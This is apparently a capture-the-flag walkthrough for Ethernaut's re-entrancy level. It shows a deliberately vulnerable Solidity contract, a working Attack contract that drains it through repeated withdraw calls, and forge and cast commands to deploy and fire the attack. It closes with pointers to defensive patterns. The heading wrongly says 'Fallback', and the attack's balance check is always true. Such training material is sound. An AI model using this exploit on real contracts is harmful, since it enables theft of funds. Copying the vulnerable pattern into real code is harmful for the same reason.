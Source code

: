 ## Fallback Level Outline

**Difficulty : 6/10**

The goal of this level is for you to steal all the funds from the contract.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

## Solution
Re-entrancy attacks continiously call the withdraw function from a vulnerable contract till it is drained. This happens because ETH is sent out of the contract before the ETH is deducted from it's mapping/tracking variable.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    Reentrance reentrance;  
    uint256 amount = 0.001 ether;

    constructor(address _reentrance) {
        reentrance = Reentrance(_reentrance); 
    }

    receive() external payable {
        if (address(reentrance).balance >= 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }
}

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call the "attack()" function on our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --value 0.01ether --gas 200000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[Video](https://www.youtube.com/watch?v=4Mm3BCyHtDY&t=321s) showing example of Re-entrancy attack 

To prevent re-entrancy attacks, use the [Check-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) or use OpenZepplin's [Reentrancy Guard Contract](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard)

